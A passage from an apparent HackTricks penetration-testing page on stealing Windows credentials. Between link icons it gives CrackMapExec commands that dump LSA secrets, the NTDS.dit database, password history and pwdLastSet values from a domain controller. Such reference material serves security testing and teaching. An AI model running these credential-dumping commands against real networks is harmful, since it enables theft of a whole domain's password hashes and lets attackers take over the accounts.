 cme smb 192.168.1.0/24 -u UserNAme -p 'PASSWORDHERE' --lsa

##

Dump the NTDS.dit from target DC[![](data:image/svg+xml,%3csvg preserveAspectRatio='xMidYMid meet' height='1em' width='1em' fill='none' xmlns='http://www.w3.org/2000/svg' viewBox='0 0 24 24' stroke-width='2' stroke-linecap='round' stroke-linejoin='round' stroke='currentColor' class='icon-7f6730be--text-3f89f380 js-evernote-checked' data-evernote-id='2102'%3e%3cg data-evernote-id='2103' class='js-evernote-checked'%3e%3cpath d='M10 13a5 5 0 0 0 7.54.54l3-3a5 5 0 0 0-7.07-7.07l-1.72 1.71' data-evernote-id='2104' class='js-evernote-checked'%3e%3c/path%3e%3cpath d='M14 11a5 5 0 0 0-7.54-.54l-3 3a5 5 0 0 0 7.07 7.07l1.71-1.71' data-evernote-id='2105' class='js-evernote-checked'%3e%3c/path%3e%3c/g%3e%3c/svg%3e)](https://book.hacktricks.xyz/windows/stealing-credentials#dump-the-ntds-dit-from-target-dc)

![](data:image/svg+xml,%3csvg preserveAspectRatio='xMidYMid meet' height='1em' width='1em' fill='none' xmlns='http://www.w3.org/2000/svg' viewBox='0 0 24 24' stroke-width='2' stroke-linecap='round' stroke-linejoin='round' stroke='currentColor' class='icon-7f6730be--text-3f89f380 js-evernote-checked' data-evernote-id='2109'%3e%3cg data-evernote-id='2110' class='js-evernote-checked'%3e%3crect x='9' y='9' width='13' height='13' rx='2' ry='2' data-evernote-id='2111' class='js-evernote-checked'%3e%3c/rect%3e%3cpath d='M5 15H4a2 2 0 0 1-2-2V4a2 2 0 0 1 2-2h9a2 2 0 0 1 2 2v1' data-evernote-id='2112' class='js-evernote-checked'%3e%3c/path%3e%3c/g%3e%3c/svg%3e)Copy

38cme smb 192.168.1.100 -u UserNAme -p 'PASSWORDHERE' --ntds
39#~ cme smb 192.168.1.100 -u UserNAme -p 'PASSWORDHERE' --ntds vss

##

Dump the NTDS.dit password history from target DC [![](data:image/svg+xml,%3csvg preserveAspectRatio='xMidYMid meet' height='1em' width='1em' fill='none' xmlns='http://www.w3.org/2000/svg' viewBox='0 0 24 24' stroke-width='2' stroke-linecap='round' stroke-linejoin='round' stroke='currentColor' class='icon-7f6730be--text-3f89f380 js-evernote-checked' data-evernote-id='2127'%3e%3cg data-evernote-id='2128' class='js-evernote-checked'%3e%3cpath d='M10 13a5 5 0 0 0 7.54.54l3-3a5 5 0 0 0-7.07-7.07l-1.72 1.71' data-evernote-id='2129' class='js-evernote-checked'%3e%3c/path%3e%3cpath d='M14 11a5 5 0 0 0-7.54-.54l-3 3a5 5 0 0 0 7.07 7.07l1.71-1.71' data-evernote-id='2130' class='js-evernote-checked'%3e%3c/path%3e%3c/g%3e%3c/svg%3e)](https://book.hacktricks.xyz/windows/stealing-credentials#dump-the-ntds-dit-password-history-from-target-dc)

![](data:image/svg+xml,%3csvg preserveAspectRatio='xMidYMid meet' height='1em' width='1em' fill='none' xmlns='http://www.w3.org/2000/svg' viewBox='0 0 24 24' stroke-width='2' stroke-linecap='round' stroke-linejoin='round' stroke='currentColor' class='icon-7f6730be--text-3f89f380 js-evernote-checked' data-evernote-id='2134'%3e%3cg data-evernote-id='2135' class='js-evernote-checked'%3e%3crect x='9' y='9' width='13' height='13' rx='2' ry='2' data-evernote-id='2136' class='js-evernote-checked'%3e%3c/rect%3e%3cpath d='M5 15H4a2 2 0 0 1-2-2V4a2 2 0 0 1 2-2h9a2 2 0 0 1 2 2v1' data-evernote-id='2137' class='js-evernote-checked'%3e%3c/path%3e%3c/g%3e%3c/svg%3e)Copy

#~ cme smb 192.168.1.0/24 -u UserNAme -p 'PASSWORDHERE' --ntds-history

##

Show the pwdLastSet attribute for each NTDS.dit account[![](data:image/svg+xml,%3csvg preserveAspectRatio='xMidYMid meet' height='1em' width='1em' fill='none' xmlns='http://www.w3.org/2000/svg' viewBox='0 0 24 24' stroke-width='2' stroke-linecap='round' stroke-linejoin='round' stroke='currentColor' class='icon-7f6730be--text-3f89f380 js-evernote-checked' data-evernote-id='2149'%3e%3cg data-evernote-id='2150' class='js-evernote-checked'%3e%3cpath d='M10 13a5 5 0 0 0 7.54.54l3-3a5 5 0 0 0-7.07-7.07l-1.72 1.71' data-evernote-id='2151' class='js-evernote-checked'%3e%3c/path%3e%3cpath d='M14 11a5 5 0 0 0-7.54-.54l-3 3a5 5 0 0 0 7.07 7.07l1.71-1.71' data-evernote-id='2152' class='js-evernote-checked'%3e%3c/path%3e%3c/g%3e%3c/svg%3e)](https://book.hacktricks.xyz/windows/stealing-credentials#show-the-pwdlastset-attribute-for-each-ntds-dit-account)

![](data:image/svg+xml,%3csvg preserveAspectRatio='xMidYMid meet' height='1em' width='1em' fill='none' xmlns='http://www.w3.org/2000/svg' viewBox='0 0 24 24' stroke-width='2' stroke-linecap='round' stroke-linejoin='round' stroke='currentColor' class='icon-7f6730be--text-3f89f380 js-evernote-checked' data-evernote-id='2156'%3e%3cg data-evernote-id='2157' class='js-evernote-checked'%3e%3crect x='9' y='9' width='13' height='13' rx='2' ry='2' data-evernote-id='2158' class='js-evernote-checked'%3e%3c/rect%3e%3cpath d='M5 15H4a2 2 0 0 1-2-2V4a2 2 0 0 1 2-2h9a2 2 0 0 1 2 2v1' data-evernote-id='2159' class='js-evernote-checked'%3e%3c/path%3e%3c/g%3e%3c/svg%3e)Copy

#~ cme smb 192.168.1.0/24 -u UserNAme -p 'PASSWORDHERE' --ntds-pwdLastSet

#

Stealing SAM & SYSTEM[![](data:image/svg+xml,%3csvg preserveAspectRatio='xMidYMid meet' height='1em' width='1em' fill='none' xmlns='http://www.w3.org/2000/svg' viewBox='0 0 24 24' stroke-width='2' stroke-linecap='round' stroke-linejoin='round' stroke='currentColor' class='icon-7f6730be--text-3f89f380 js-evernote-checked' data-evernote-id='2171'%3e%3cg data-evernote-id='2172' class='js-evernote-checked'%3e%3cpath d='M10 13a5 5 0 0 0 7.54.54l3-3a5 5 0 0 0-7.07-7.07l-1.72 1.71' data-evernote-id='2173' class='js-evernote-checked'%3e%3c/path%3e%3cpath d='M14 11a5 5 0 0 0-7.54-.54l-3 3a5 5 0 0 0 7.07 7.07l1.71-1.71' data-evernote-id='2174' class='js-evernote-checked'%3e%3c/path%3e%3c/g%3e%3c/svg%3e)](https://book.hacktricks.xyz/windows/stealing-credentials#stealing-sam-and-system)
